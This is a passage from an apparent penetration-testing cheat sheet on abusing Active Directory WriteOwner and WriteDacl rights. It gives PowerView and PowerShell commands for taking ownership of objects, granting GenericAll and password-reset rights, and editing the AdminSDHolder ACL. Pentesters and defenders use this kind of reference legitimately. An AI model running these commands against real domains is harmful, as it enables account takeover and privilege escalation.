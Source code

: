 ###### User / group - WriteOwner

The `RSAT` `Get-ACL` and `Set-ACL`, and `PowerView`'s `Set-DomainObjectOwner`
PowerShell cmdlets can be used to change the owner of a security object. Being
the owner of an user can be leveraged to change the user password and being the
owner of a group can allows for the addition of others security objects to the
group.

```bash
$ACL = Get-ACL -Path "AD:<OBJECT_DISTINGUISHED_NAME>"
$Principal = New-Object System.Security.Principal.NTAccount("<DOMAIN>", "<USERNAME | GROUPNAME>")
$ACL.SetOwner($Principal)
Set-Acl -Path "AD:<OBJECT_DISTINGUISHED_NAME>" -AclObject $ACL

Set-DomainObjectOwner -Verbose -Identity <SamAccountName | DistinguishedName | SID | GUID> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>
Set-DomainObjectOwner -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>

# Once the user / group owner is changed, the GenericAll privilege can be granted to users using the new owner identity.
# Refer to the "User - GenericAll" and "Group - GenericAll" parts for further exploitation.
Add-DomainObjectAcl -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights All
```

###### User / group - WriteDacl

`PowerView`'s `Add-DomainObjectAcl` and the `ActiveDirectory` module's
`Get-Acl` / `Set-Acl` PowerShell cmdlet can be used to modify the specified
object `ACL`.

`Add-DomainObjectAcl` can be used to add the following rights: `GenericAll` and
`ExtendedRight`'s `ForceChangePassword`. The `WriteMembers` option is
documented as `WriteProperty` to the `Member` attribute but is non functional.

Additionally, the `Active Directory Users and Computers` snap-in can be used
to modify `ACL` using a graphical interface.

```bash
# Procedure to the modify an object's ACL using ADUC.
mmc.exe -> File -> Add/Remove Snap-in... (Ctrl + M) -> Active Directory Users and Computers
-> <DOMAIN> -> System -> right click AdminSDHolder -> Properties -> Security -> Advanced -> Add
-> Select a principal
-> Type: Allow
-> Permissions: FullControl / Write all properties / Modify permissions / Modify owner / ...

# Automated modification using PowerView's Add-DomainObjectAcl to grant the GenericAll and ExtendedRight's ForceChangePassword rights.
# TargetIdentity: security object that will be modified
# PrincipalIdentity: security object that will be given the right over the targeted object
Add-DomainObjectAcl -Verbose -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword | WriteMembers>
Add-DomainObjectAcl -Verbose -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword | WriteMembers>

# Manual modification using PowerShell ActiveDirectory module, that can be used to set specific ACE (GenericAll, ExtendedRight's ForceChangePassword, and WriteProperty to the Member attribute below).
$Object = "AD:\<DistinguishedName>"
$User = '<USERNAME>'
$UserSID = [System.Security.Principal.SecurityIdentifier] $(Get-ADUser $User).SID
$ObjectACL = Get-ACL -Path $Object
# Adds the ACE GenericAll.
$ACE_FullControl = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
```